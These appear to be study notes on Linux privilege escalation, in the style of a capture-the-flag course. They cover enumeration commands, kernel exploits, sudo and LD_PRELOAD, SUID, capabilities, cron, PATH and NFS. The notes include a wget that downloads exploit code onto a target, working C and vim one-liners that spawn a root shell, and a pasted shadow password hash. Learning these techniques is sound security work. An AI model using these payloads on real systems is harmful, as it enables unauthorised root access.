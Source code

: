 # What Is Privilege Escalation 
###.going from a lower permission account to a higher permission one
###.exploitation of a vulnerability, design flaw or configuration oversight in an OS or APP to gain unathorized access to resources that are usually restricted from the users

##Privilege Escalation allows:
###1. Resetting passwords
###2. Bypass access controls to compromise protected data
###3. Editing software configurations
###4. Enabling persistence
###5. Changing the privilege of existing users
###6. Execute any admin command

##Enumeration - first step taken after gaining access, important step post-compromise phase

               #Linux Commands

###'hostname' - command returns hostname of the target machine
###'uname -a' - print system information detail about kernel, useful for potential kernel vulns
###'/proc/version' - info about the target system processes
###'/etc/issue' - file contains info about the OS, can be eaily customized or changed
###'ps' - see running processes on linux system
####-1. PID: Process ID
####-2. TTY: Terminal type used by user
####-3. Time: Amount of CPU time used by process
####-4. CMD: command or executable running
###'ps -a': view all running processes
###'ps axjf': view process tree
###'ps aux': will show processes for all users
###-a: all users
###-u: display the user that launced the process
###-x: show processes that are not attached to a terminal

###'env': show environmental variables
###'sudo -l: list all commands the user can run using 'sudo'
###'ls': list files in current directory
###'ls -la': list all files including hidden files in current directory
###'id <user>': provide a general overview of the user's privilege level
###'cat /etc/passwd': discover users on the system
###'cat /etc/passwd | cut -d ":" -f 1": easily list all users and ignore other parts
###'history': look at earlier commands 
###'ifconfig': information about the network interfaces (eth0, tun0, and tun1)
###'ip route': see network route

###'netstat': gather information on existing connections
###'netstat -a': shows all listening ports and established connections
###'netstat -at': list TCP protocols
###'netstat -au': list UDP protocols
###'netstat -l': list ports in 'listening' mode. Ports are open and ready to accept incoming connection
###'netstat -lt': list ports in 'listening' mode using TCP protocol
###'netstat -s': list network usage statistics by protocol (-t: TCP, -u: UDP)
###'netstat -tp': list connections with service name and PID (-l: listening ports)
###'netstat -i': shows interface stats
###'netstat -ano': -a = display all sockets, -n: do not resolve names, -o: display timers

###find command - searching the target system for important information and potential privilege escalation vectors 
###'find . -name <filename>.txt' find the file named <filename> in the current directory
###'find /home -name <filename>.txt': find file named <filename> in the /home directory
###'find / -type d -name config': find the directory named config under "/"
###'find / -type f -perm 0777': find files with the 777 permissions(files readable, writable and executable by all users)
###'find / -perm a=x':find executable files
###'find /home -user frank': find all files for user "frank" under "/home"
###'find / -mtime 10': find files modified in the last 10 days
###'find / -atime 10': find files accessed in the last 10 days
###'find / -cmin -60': find files changed in the last hour 
###'find / -amin -60': find files accessed in the last hour
###'find / -size 50M': find files with a 50 MB size

###folders and files that can be written to or executed from:
####1. 'find / -writable -type d 2>/dev/null'
####2. 'find / -perm -222 -type d 2>/dev/null'
####3. 'find / -perm -o w -type d 2>/dev/null'
###'find / -perm -o x -type d 2>/dev/null': find world executable folders
###find development tools and supported languages:
####'find / -name perl*'
####'find / -name python*'
####'find / -name gcc*'
###'find / -perm -u=s -type f 2>/dev/null': find files with SUID bit, which allows us to run the file with a higher privilege than the current user

###Automated Enumeration Tools - linux enumeration tools with Github Repositories
####LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
####LinEnum: https://github.com/rebootuser/LinEnum
####LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
####Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
####Linux Priv Checker: https://github.com/linted/linuxprivchecker

##Kernel Exploits
###-privEsc ideally leads to root privileges
###-achieved by exploting an existing vuln or accessing another user account that has higher privileges
###-rely on misconfigurations and lax permissions
###-methodology:
####1. Id the Kernel version
####2. search and find an exploit code (https://www.linuxkernelcves.com/cves)
####3. Run the exploit

###Linux Kernel 3.13.0-24-generic x86 64
####CVE-2015-1328: Allows local users to obtain root access by leveraging a configuration in which 'overlayfs' is permitted in an arbitrary mount namespace. 
####Exploit: https://www.exploit-db.com/exploits/37292
####1. Need to copy exploit file to the target machine
	#####a. start a python server to serve the file
	#####python3 -m http.server 8888
	#####b. on target machine copy the file in the /tmp folder
	#####wget http://1.2.3.4/8888/exploit.c
####2. compile the exploit
#####gcc exploit.c -o pwned
####3. search for flag
#####find . -name flag1.txt
####4. cat flag1.txt

###Sudo
####-check root privileges using 'sudo -l'
####-Leverage application functions: some application allow the loading of alternative configuration files
####eg: Apache2 ('-f': specify an alternate ServerConfigFile)
####-Leverage LD_PRELOAD: allows any program to use shared libraries
####-if "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run
####-LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID
###-Methodology:
####1. Check for LD_PRELOAD(with the env_keep option enabled)
####2. Write a simple C code compiled as a share object (.so extension) file
####3. Run the program with sudo rights and LD_PRELOAD option pointing to our .so file
###The C code will simply spawn a root shell and can be written as follows; shell.c

####'#include <stdio.h>'
'#include <sys/types.h>'
'#include <stdlib.h>'

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

####gcc -fPIC -shared -o shell.so shell.c -nostartfiles
####-use this shared object file when launching any program the user can run with sudo
####sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

####$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::

###SUID
####-Linux privilege controls rely on controlling users and file interacions
####-achieved using permissions
####-SUID(set-user identification)
####-SGID(set-group identification)
####-'s'bit - special permission level
'####find / -type f -perm -04000 -ls 2>/dev/null': list files with SUID or SGID bit set

###Capabilities
####'getcap' tool  to list enabled capabilities
####-capabilites help manage privileges at a more granular level
####'getcap -r /' generates a lot of erros so it is good practice to redirect error messages to /dev/null
####'getcap -r / 2>/dev/null'
###vim:
####./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

###Cron Jobs
####-used to run scripts or binaries at specific times
####-run with privilege of the owner and not current user
####-task that runs on root privileges, change script that will be run to new script with root privileges
####-stored as crontabs
####-any user can read the file keeping system-wide cron jobs under '/etc/crontab'
####backup.sh - configured to run every minute

###PATH
####-if a folder for the user has a write permission located in the path, an applicaition in the path could be hijacked to run a script and increase privileges
####echo $PATH

###NFS
####-Network file sharing: configuration is kept in '/etc/exports' file. 
####-the file is created during the NFS server installation and can usually be read by users
####-critical element: "no_root_squash" - default NFS will change the root user to nfsnobody and strip any file from operating with root privileges
####- 'no_root_squash' is present on a writable share, it is possible to create an executable with SUID bit set and run it on the target system




